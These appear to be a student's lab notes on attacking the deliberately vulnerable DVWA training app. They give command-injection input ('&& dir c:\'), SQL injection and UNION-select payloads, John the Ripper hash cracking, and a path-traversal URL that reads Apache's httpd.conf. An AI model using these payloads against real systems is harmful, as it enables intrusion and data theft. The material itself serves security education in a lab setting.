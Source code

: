 ## Command Injection
- Type IP of other machines, followed by `&& dir c:\
- Directory listing of C drive in Win10 VM shown

## SQL Injection
- Basic injection command:
```sql
ppp' or '0' = '0
```

- Retrieve more columns from table:
```sql
ppp' or '0' = '0' union select column1, column2 from table --
```

- Retrieve `information_schema` from database
```sql
ppp' or '0' = '0' union select table_schema, table_name from information_schema.tables --
```

## John The Ripper
- Crack hashed passwords inside <u>password.txt</u>
```
sudo john password.txt
```

- Run John The Ripper with various suggested formats
```
sudo john --format=raw-md5 password.txt
```

## Forced Browsing
- Manipulate the value contained in `page=` to find hidden files
```
http://Win10-IP/dvwa-master/vulnerabilities/fi/?page=file4.php
```

## File Inclusion
- Change URL below to get non-existent page and get error to find full path of page
```
http://Win10-IP/dvwa-master/vulnerabilities/fi/?page=include2.php
```

- Find configuration file of Apache Web Server
```
http://Win-10/dvwa-master/vulnerabilities/fi/?page=..\..\..\..\apache\conf\httpd.conf
```

## Burp Suite
### Setting Up
- Launch Burp Suite
```
sudo burpsuite
```

